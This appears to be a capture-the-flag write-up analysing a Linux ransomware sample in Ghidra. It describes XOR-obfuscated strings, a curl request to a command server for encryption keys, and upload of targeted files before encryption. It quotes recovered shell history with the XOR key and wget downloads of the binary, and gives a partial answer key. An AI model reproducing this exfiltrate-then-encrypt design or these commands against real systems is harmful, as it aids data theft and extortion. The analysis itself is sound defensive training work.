

# Lockpick3.0

## Speech
```
The threat actors of the Lockpick variant of Ransomware seem to have increased their skillset. Thankfully on this occasion they only hit a development, non production server. We require your assistance performing some reverse engineering of the payload in addition to some analysis of some relevant artifacts. Interestingly we can't find evidence of remote access so there is likely an insider threat.... Good luck! Please note on the day of release this is being utilised for a workshop, however will still be available (and free).
```

## Analysis
1. Open the ELF file in Ghidra
2. Go to the `entry` function, double click on the first argument, it's the main function
3. Modify the function signature :

4. In the beginning of the main we can see 7 call to a function taking a global as first argument, let's go in this function and modify it, after a little bit of reading we can see it's a function xoring the global with the first argument :

5. Then I go back in the main function and made some formating, I changed the name of the global in order to recognize them if reused later

6. Then we have a line with a function taking 3 buffer as arguments, let's go in this function
    - first thing we can see the local_13c is the return value
    - then continue to lvar2 which is the return of curl_easy_init function, so we know this function is doing something with curl
    - Then a function is called with one argument, the function FUN_00102d7d :
        - This function used the function gethostname
        - if the return is different than 0 a variable is set wit the value "unknown"
        - Then the result of the xor of the third global string xored in the main is stored in a variable (len 7)
        - Then the first param is set with a string containing "passphrase :" (then the third decrypt string) and "hostname :" (with unknonw)
        - Not sure what this function does, I think it check the hostname
        
    - After the hostname function we have options added to the curl instance (we know we send json or received)
    - then store the first decrypted string in a buffer and add the /connect at the end, probably an URL/domain name
    - Check if curl is inited and add some option with curl_easy_setopt function (https://curl.se/libcurl/c/curl_easy_setopt.html and the code : https://gist.github.com/jseidl/3218673)
    - The curl is done wiht curl_easy_perform and the result is stored in a variable
    - In the option we have a malloc for this option : `CURLOPT_FILE = 10001;` which mean the result has been stored in a file, after the if we see the use of `cJSON_Parse`
    - Each `cJSON_GetObjectItem` take the parsed json and a string then store the "value" for the given "key" (the string pointed to) store the value in a var and this var is then attribute to the parameters of the function
    
    - This function is making a request to the C2 in order to recover a key, an IV and a client ID probably to encrypt later
7. If the curl request successfully recover the json information a new function is launched, `FUN_00102eeb` :
    - The second decoded string is stored in a variable and used by the function `opendir`, so the second decrypted string must be a folder path (`__dirp` is a structure (an object of type dir), https://pubs.opengroup.org/onlinepubs/009695399/functions/opendir.html and the DIR structure : https://www.gnu.org/software/libc/manual/html_node/Directory-Entries.html)
    - if the opendir is successful then we use readdir (in a loop) to iterate through the file of the folder
    - the `d_name` of the file (the name of the file) is concatenated to the path then stored in a variable
    - Then a function is called and this function only call the `xstat` function (https://codebrowser.dev/glibc/glibc/sysdeps/unix/sysv/linux/xstat.c.html), this function is used for getting info about the file NAME
    - After we have two check, one checking if the file name is '.' and one to check if '..' to not encode the current and previous directory, to skip them
    - The next function is full of file extension, I think this function check the extension to do action only on these extensions
    - The function in the if (`FUN_001031eb`)
        - The function xpg_basename return the last component of a file name : https://refspecs.linuxbase.org/LSB_5.0.0/LSB-Core-generic/LSB-Core-generic/baselib---xpg-basename.html and stored in a var then opened with fopen
        - then a curl is created and options are added
        - this function ultimately send the file to the /upload endpoint
    - If the exfiltration is ok we have another function (`FUN_0010255a`)
        - https://en.cppreference.com/w/c/io/ftell
        - https://en.cppreference.com/w/cpp/io/c/fseek
        - https://github.com/openssl/openssl/issues/22628
        
    - We have a function iterating each file, checking the extension and if it's interesting the file is exfiltrate via curl then encrypted
    

8. To continue we need to decrypt the xored data, let's find the key in the vmem file :
```bash
$ strings ubuntu-client-Snapshot2.vmem | grep ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
chmod +x ubuntu-client 
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
wget http://10.10.0.70:8000/ubuntu-client
wget http://10.10.0.70:8123/ubuntu-client
```
9. The key is `xGonnaGiveIt2Ya`

## Questions
1. Please confirm the file hash of the malware? (MD5)
    > a2444b61b65be96fc2e65924dee8febd
    - md5sum * after unzipping
2. Please confirm the XOR string utilised by the attacker for obfuscation?
    > 
    - 
3. What is the API endpoint utilised to retrieve the key?
    > 
    - 
4. What is the API endpoint utilised for upload of files?
    > 
    - 
5. What is the name of the service created by the malware?
    > 
    - 
6. What is the technique ID utilised by the attacker for persistence?
    > 
    - 